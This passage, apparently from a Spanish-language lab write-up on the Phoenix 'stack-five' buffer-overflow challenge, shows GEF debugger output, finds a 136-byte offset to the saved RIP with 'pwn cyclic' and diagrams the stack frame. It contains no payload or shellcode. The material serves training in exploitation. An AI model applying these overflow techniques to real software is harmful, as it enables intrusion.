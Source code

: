 ```csharp
     0x4005a4 <main+0>         push   rbp
     0x4005a5 <main+1>         mov    rbp, rsp
     0x4005a8 <main+4>         sub    rsp, 0x10
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack-five", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005a1 → start_level()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

ahora con el comando `info frame` vamos a ver la información del **saved rip** y vemos que ya pisamos este valor en este caso el valor quedó en saved rip es **0x6261616b6261616a**

```csharp
gef➤  info frame
Stack level 0, frame at 0x7fffffffe630:
 rip = 0x4005a1 in start_level; saved rip = 0x6261616b6261616a
 called by frame at 0x7fffffffe638
 Arglist at 0x7fffffffe620, args: 
 Locals at 0x7fffffffe620, Previous frame's sp is 0x7fffffffe630
 Saved registers:
  rbp at 0x7fffffffe620, rip at 0x7fffffffe628
gef➤ 
```

Usamos `pwn cyclic -l <valor>` para localizar dentro del patrón el offset exacto que sobreescribe el **saved RIP**. En este caso, el valor **0x6261616b6261616a** que vimos en RIP durante el crash, con esto confirmamos que el **desplazamiento desde el inicio del buffer hasta el saved RIP** es de 136 bytes, creo que esta forma es más fácil, pero se aprovechó este reto para mostrar dos formar de encontrar el offset.

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/Binarios/5_stack-five]
└─# pwn cyclic -l 0x6261616b6261616a
136
```

Para que quede un poco más claro podemos graficar la pila para `start_level` y esta se organiza con 128 bytes reservados para el buffer local, seguidos de 8 bytes para el *Saved RBP* y, finalmente, 8 bytes para el *Saved RIP* (dirección de retorno). Por lo tanto, desde el inicio del buffer hasta el *Saved RIP* hay **128 + 8 = 136 bytes**, que es el valor que debemos escribir para sobreescribir la dirección de retorno.

```csharp
Direcciones (más altas)
┌─────────────────────────────┐
│ Saved RIP  ← Retorno a main │  <- $rbp + 8
├─────────────────────────────┤
│ Saved RBP                   │  <- $rbp
├─────────────────────────────┤
│                             │
│ ... espacio reservado ...   │  (0x80 bytes = 128 bytes)
│  para el buffer local       │
│                             │
├─────────────────────────────┤
│ Inicio del buffer           │  <- $rax / $rsp en gets
└─────────────────────────────┘
Direcciones (más bajas)
```
